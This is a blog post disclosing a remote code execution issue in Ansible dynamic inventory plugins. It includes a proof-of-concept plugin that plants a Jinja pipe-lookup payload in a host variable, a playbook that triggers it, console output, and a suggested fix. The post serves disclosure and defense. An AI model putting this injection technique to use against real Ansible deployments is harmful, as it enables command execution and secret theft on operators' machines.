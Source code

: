 <!--
.. title: Remote Code Execution in Ansible dynamic inventory plugins
.. slug: remote-code-execution-in-ansible-dynamic-inventory-plugins
.. date: 2024-03-11 20:00:00 UTC
.. tags: english,linux,software,debian,planet-debian,ansible,security
.. category: 
.. link: 
.. description: 
.. type: text
-->

I had reported this to Ansible a year ago (2023-02-23), but it seems this is considered expected behavior, so I am posting it here now.

## TL;DR

Don't ever consume any data you got from an inventory if there is a chance somebody untrusted touched it.

## Inventory plugins

[Inventory plugins](https://docs.ansible.com/ansible/latest/plugins/inventory.html#inventory-plugins) allow Ansible to pull inventory data from a variety of sources.
The most common ones are probably the ones fetching instances from clouds like [Amazon EC2](https://docs.ansible.com/ansible/latest/collections/amazon/aws/aws_ec2_inventory.html)
and [Hetzner Cloud](https://docs.ansible.com/ansible/latest/collections/hetzner/hcloud/hcloud_inventory.html) or the ones talking to tools like [Foreman](https://theforeman.org/).

For Ansible to function, an inventory needs to tell Ansible how to connect to a host (so e.g. a network address) and which groups the host belongs to (if any).
But it can also set any arbitrary variable for that host, which is often used to provide additional information about it.
These can be tags in EC2, parameters in Foreman, and other arbitrary data someone thought would be good to attach to that object.

And this is where things are getting interesting.
Somebody could add a comment to a host and that comment would be visible to you when you use the inventory with that host.
And if that comment contains a [Jinja](https://jinja.palletsprojects.com/) expression, it might get executed.
And if that Jinja expression is using the [`pipe` lookup](https://docs.ansible.com/ansible/latest/plugins/lookup.html), it might get executed in your shell.

Let that sink in for a moment, and then we'll look at an example.

## Example inventory plugin

```python
from ansible.plugins.inventory import BaseInventoryPlugin

class InventoryModule(BaseInventoryPlugin):

    NAME = 'evgeni.inventoryrce.inventory'

    def verify_file(self, path):
        valid = False
        if super(InventoryModule, self).verify_file(path):
            if path.endswith('evgeni.yml'):
                valid = True
        return valid

    def parse(self, inventory, loader, path, cache=True):
        super(InventoryModule, self).parse(inventory, loader, path, cache)
        self.inventory.add_host('exploit.example.com')
        self.inventory.set_variable('exploit.example.com', 'ansible_connection', 'local')
        self.inventory.set_variable('exploit.example.com', 'something_funny', '{{ lookup("pipe", "touch /tmp/hacked" ) }}')
```

The code is mostly copy & paste from the [Developing dynamic inventory](https://docs.ansible.com/ansible/latest/dev_guide/developing_inventory.html) docs for Ansible and does three things:

1. defines the plugin name as `evgeni.inventoryrce.inventory`
2. accepts any config that ends with `evgeni.yml` (we'll need that to trigger the use of this inventory later)
3. adds an imaginary host `exploit.example.com` with `local` connection type and `something_funny` variable to the inventory

In reality this would be talking to some API, iterating over hosts known to it, fetching their data, etc.
But the structure of the code would be very similar.

The crucial part is that if we have a string with a Jinja expression, we can set it as a variable for a host.


## Using the example inventory plugin

Now we install the collection containing this inventory plugin,
or rather write the code to `~/.ansible/collections/ansible_collections/evgeni/inventoryrce/plugins/inventory/inventory.py`
(or wherever your Ansible loads its collections from).

And we create a configuration file.
As there is nothing to configure, it can be empty and only needs to have the right filename: `touch inventory.evgeni.yml` is all you need.

If we now call `ansible-inventory`, we'll see our host and our variable present:

```console
% ANSIBLE_INVENTORY_ENABLED=evgeni.inventoryrce.inventory ansible-inventory -i inventory.evgeni.yml --list
{
    "_meta": {
        "hostvars": {
            "exploit.example.com": {
                "ansible_connection": "local",
                "something_funny": "{{ lookup(\"pipe\", \"touch /tmp/hacked\" ) }}"
            }
        }
    },
    "all": {
        "children": [
            "ungrouped"
        ]
    },
    "ungrouped": {
        "hosts": [
            "exploit.example.com"
        ]
    }
}
```

([`ANSIBLE_INVENTORY_ENABLED=evgeni.inventoryrce.inventory`](https://docs.ansible.com/ansible/latest/reference_appendices/config.html#envvar-ANSIBLE_INVENTORY_ENABLED) is required to allow the use of our inventory plugin, as it's not in the default list.)

So far, nothing dangerous has happened.
The inventory got generated, the host is present, the funny variable is set, but it's still only a string.

## Executing a playbook, interpreting Jinja

To execute the code we'd need to use the variable in a context where Jinja is used.
This could be a template where you actually use this variable, like a report where you print the comment the creator has added to a VM.

Or a [`debug`](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/debug_module.html) task where you dump all variables of a host to analyze what's set.
Let's use that!

```yaml
- hosts: all
  tasks:
    - name: Display all variables/facts known for a host
      ansible.builtin.debug:
        var: hostvars[inventory_hostname]
```

This playbook looks totally innocent: run against all hosts and dump their hostvars using `debug`.
No mention of our funny variable.
Yet, when we execute it, we see:

```console
% ANSIBLE_INVENTORY_ENABLED=evgeni.inventoryrce.inventory ansible-playbook -i inventory.evgeni.yml test.yml
PLAY [all] ************************************************************************************************

TASK [Gathering Facts] ************************************************************************************
ok: [exploit.example.com]

TASK [Display all variables/facts known for a host] *******************************************************
ok: [exploit.example.com] => {
    "hostvars[inventory_hostname]": {
        "ansible_all_ipv4_addresses": [
            "192.168.122.1"
        ],
        …
        "something_funny": ""
    }
}

PLAY RECAP *************************************************************************************************
exploit.example.com  : ok=2    changed=0    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   
```

We got *all* variables dumped, that was expected, but now `something_funny` is an empty string?
Jinja got executed, and the expression was `{{ lookup("pipe", "touch /tmp/hacked" ) }}` and `touch` does not return anything.
But it did create the file!

```console
% ls -alh /tmp/hacked 
-rw-r--r--. 1 evgeni evgeni 0 Mar 10 17:18 /tmp/hacked
```

We just "hacked" the Ansible [control node](https://docs.ansible.com/ansible/latest/network/getting_started/basic_concepts.html#control-node) (aka: your laptop),
as that's where `lookup` is executed.
It could also have used the [`url` lookup](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/url_lookup.html) to send the contents of your Ansible vault to some internet host.
Or connect to some VPN-secured system that should not be reachable from EC2/Hetzner/….

## Why is this possible?

This happens because [`set_variable(entity, varname, value)`](https://github.com/ansible/ansible/blob/56f31126ad1c69e5eda7b92c1fa15861f722af0e/lib/ansible/inventory/data.py#L245) doesn't mark the values as unsafe and Ansible processes everything with Jinja in it.

In this very specific example, a possible fix would be to explicitly wrap things in `AnsibleUnsafeText`:

```python
self.inventory.set_variable('exploit.example.com', 'something_funny', AnsibleUnsafeText('{{ lookup("pipe", "touch /tmp/hacked" ) }}'))
```

Which then gets rendered as a string when dumping the variables using `debug`:

```console
"something_funny": "{{ lookup(\"pipe\", \"touch /tmp/hacked\" ) }}"
```

But it seems inventories don't do this:

```python
for k, v in host_vars.items():
    self.inventory.set_variable(name, k, v)
```
([aws_ec2.py](https://github.com/ansible-collections/amazon.aws/blob/89ec6ba2ee7fae84eb1aae098da040eba4974c7d/plugins/inventory/aws_ec2.py#L762-L763))

```python
for key, value in hostvars.items():
    self.inventory.set_variable(hostname, key, value)
```
([hcloud.py](https://github.com/ansible-collections/hetzner.hcloud/blob/46717e2d6574b1e36db7bc73b54712f9270a2169/plugins/inventory/hcloud.py#L503-L504))

```python
for k, v in hostvars.items():
    try:
        self.inventory.set_variable(host_name, k, v)
    except ValueError as e:
        self.display.warning("Could not set host info hostvar for %s, skipping %s: %s" % (host, k, to_text(e)))
```
([foreman.py](https://github.com/theforeman/foreman-ansible-modules/blob/8ad32f166c3d1f8f4077dc3029b312c5b9dc534b/plugins/inventory/foreman.py#L516-L520))

And honestly, I can totally understand that.
When developing an inventory, you do not expect to handle insecure input data.
You also expect the API to handle the data in a secure way by default.
But `set_variable` doesn't allow you to tag data as "safe" or "unsafe" easily and data in Ansible defaults to "safe".

## Affected versions

I've tried this on Ansible (core) 2.13.13 and 2.16.4.
I'd totally expect older versions to be affected too, but I have not verified that.
